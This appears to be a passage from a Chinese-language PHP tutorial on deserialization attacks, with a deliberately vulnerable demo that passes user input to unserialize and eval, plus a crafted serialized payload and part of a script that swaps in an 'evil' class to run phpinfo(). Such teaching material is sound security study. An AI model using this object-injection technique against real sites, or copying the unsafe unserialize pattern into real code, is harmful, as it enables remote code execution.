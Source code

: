   
构造 test 对象的序列化字符串 O:4:"test":0:{}  

```
<?php
class test{}
$test = new test;
echo serialize($test);
?>
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08b9gia0Zib0wl48m1ZT5skGdgeE1BaLNPqoAB9wydVsU4ia1MGgr55XibMPEGIudYmt8CPv1pZVibFlCw/640?wx_fmt=png)  

存在调用其他类方法的代码

```
<?php
class lemon
{
protected $ClassObj;
function __construct(){
$this->ClassObj = new normal();
}
function __destruct(){
$this->ClassObj->action();
}


}
class normal{
function action(){
echo "hello";
}
}
class evil{
private $data;
function action(){
eval($this->data);
}
}
unserialize($_GET['d']);
?>
```

  
在 exploit 中, 我们可以在__construct 中将 ClassObj 换为 evil 类, 然后将 evil 类的私有属性 data 赋值为 phpinfo()。

  
O:5:"lemon":1:{s:11:"%00*%00ClassObj";O:4:"evil":1:{s:10:"%00evil%00data";s:10:"phpinfo();";}}  

```
<?php
class lemon
{
protected $ClassObj;
function __construct(){
$this->ClassObj = new evil();
}
function __destruct(){
$this->ClassObj->action();
}


}
class normal{
function action(){
echo "hello";
}
```